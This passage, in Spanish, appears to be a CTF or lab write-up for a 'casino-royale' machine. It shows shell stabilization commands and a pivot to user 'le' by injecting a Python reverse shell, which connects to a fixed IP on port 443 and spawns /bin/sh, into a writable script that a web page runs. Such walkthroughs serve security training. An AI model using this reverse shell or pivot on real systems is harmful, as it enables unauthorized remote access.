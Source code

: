 **Tratamiento de la shell para poder ver todo mas cómodo.**

- ``script /dev/null -c bash``
- ``CTRL + Z``
- ``stty raw -echo; fg``
- ``reset xterm``
- ``stty size`` (En nuestra máquina y colocar el siguiente comando con las medidas que nos dio este)
- ``export TERM=xterm``
- ``export SHELL=bash``
- ``stty rows 41 columns 184``
- ``export TERM=xterm`` (Para el clear de consola)

-----
### Método 1 para ganar acceso al usuario root
#### User Pivoting al usuario ``le``

Explorando en el sistema los archivos con privilegios SUID encontré una ruta en ``/opt/casino-royale`` dentro de está ruta hay variedad de archivos, entre ellos se encuentra uno llamado ``php-web-start.sh`` con propietario ``le`` que al hacerle un ``cat`` vemos que está montando un servidor web por el **puerto 8081**, al ir a esa web vemos un botón que dice ``Run Data Collect`` que al darle click si miramos la **URL** vemos que ejecuta el script ``collect.php``. Por lo tanto al ver el código del archivo ``collect.php`` vemos que está ejecutando un archivo llamado ``casino-data-collection.py`` en el cual **tenemos permiso de escritura** como usuario ``www-data`` y el propietario es ``le``, debido a esto **modificaremos el script de python** colocándole la siguiente instrucción para entablar otra **Reverse Shell** pero que nos brinde una consola como el usuario ``le``.

```python
/usr/bin/python

import socket
import os
import subprocess

s = socket.socket()
s.connect(("192.168.0.194", 443))  # Reemplaza TU_IP_EXTERNA y PUERTO
os.dup2(s.fileno(), 0)  # Redirige stdin
os.dup2(s.fileno(), 1)  # Redirige stdout
os.dup2(s.fileno(), 2)  # Redirige stderr
subprocess.call(["/bin/sh", "-i"])  # Lanza una shell interactiva
```

Nos colocamos en escucha por el *puerto 443*.
Ahora solo queda darle click al botón de la web que dice ``Run Data Collect`` para que nos interprete el archivo ``casino-data-collection.py`` que posee nuestra **Reverse Shell**.

![[MV 8.png]]

![[MV 9.png]]

Ya somos el usuario ``le`` ahora tenemos que buscar una vía potencial de volvernos el usuario ``root`` para concluir con la máquina.
